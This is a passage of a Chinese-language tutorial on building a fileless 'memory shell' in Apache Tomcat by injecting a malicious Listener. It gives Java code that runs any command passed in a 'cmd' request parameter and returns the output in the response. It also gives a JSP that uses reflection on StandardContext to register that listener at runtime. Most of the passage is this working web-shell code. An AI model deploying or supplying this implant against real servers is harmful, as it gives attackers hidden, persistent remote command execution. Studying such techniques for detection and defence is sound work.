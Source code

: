 这个方法的作用是获取applicationEventListenersList的属性，得到已经注册的Listener

![img](img/1671433458942-083aa68c-9347-4749-9d57-671fe5bc8be7.png)

大概过程就是：从配置文件中读取Listener ——>将其保存在一个数组中，并进行实例化。——>加载Listener——>再次读取，从数组对象中逐个读取——>对于每一个Listener，执行`requestInitialized()`

### 编写Listener内存马EXP

先分步编写，分别是恶意代码执行命令部分、创建Listener部分、加载Listener部分

首先执行命令的部分前面的就可以使用

```java
String cmd;
    try {
        cmd = sre.getServletRequest().getParameter("cmd");
        RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
        Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
        requestField.setAccessible(true);
        Request request = (Request) requestField.get(requestFacade);
        Response response = request.getResponse();

        if (cmd != null){
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            int i = 0;
            byte[] bytes = new byte[1024];
            while ((i=inputStream.read(bytes))!=-1){
                response.getWriter().write(new String(bytes, 0, i));
                response.getWriter().write("\r\n");
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
```

基本在初始化和创建的部分都在StandardContext类中，所以要先获取这个类的对象。由于是需要获取Request对象去调用`getServletContext`方法，直接编写Java文件还需要去引入Request并且实例化一个对象，而JSP内置Reuqest，不需要这一步。所以基本上大家的做法都是直接在JSP中进行编写。

```java
<%
    ServletContext servletContext =  request.getServletContext();
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    Object[] objects = standardContext.getApplicationEventListeners();
    List<Object> listeners = Arrays.asList(objects);
    List<Object> arrayList = new ArrayList(listeners);
    arrayList.add(new ListenerShell());
    standardContext.setApplicationEventListeners(arrayList.toArray());

%>
```